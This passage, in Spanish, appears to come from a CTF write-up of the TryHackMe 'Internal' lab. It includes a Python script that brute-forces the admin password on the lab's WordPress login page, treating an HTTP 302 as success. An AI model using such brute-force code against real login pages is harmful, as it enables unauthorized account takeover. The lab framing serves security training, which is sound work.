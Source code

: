 Podemos comprobar que el usuario admin es un usuario valido comprobandolo en el panel de inicio de session.
![](/assets/img/internal/log.png)
Vamos aplicar Fuerza bruta contra el panel de inicio de session, voy crear un script de python atraves del cual aplicar la fuerza bruta.
```python
import threading, pdb
import requests
import sys
from pwn import *

# Variables globales
url_login = 'http://internal.thm/blog/wp-login.php'
Burp = {'http':'http://127.0.0.1:8080'}
found_pass = False
l1 = log.progress("Password")
l2 = log.progress("Counter")

def makeBruteForce(password):
    
    global found_pass

    post_data = {
            "log":"admin",
            "pwd":password,
            "wp-submit":"Log In",
            "redirect_to":"http://internal.thm/blog/wp-admin/",
            "testcookie":"1"
    }
    
    cookies = {
            "wp-settings-time-1":"1681947286; wordpress_test_cookie=WP+Cookie+check"
            }
    
    r = requests.post(url_login, data=post_data, cookies=cookies, allow_redirects=False)
    
    if r.status_code == 302:
        l1.success("password found %s " % password)
        found_pass = True
    
    return
```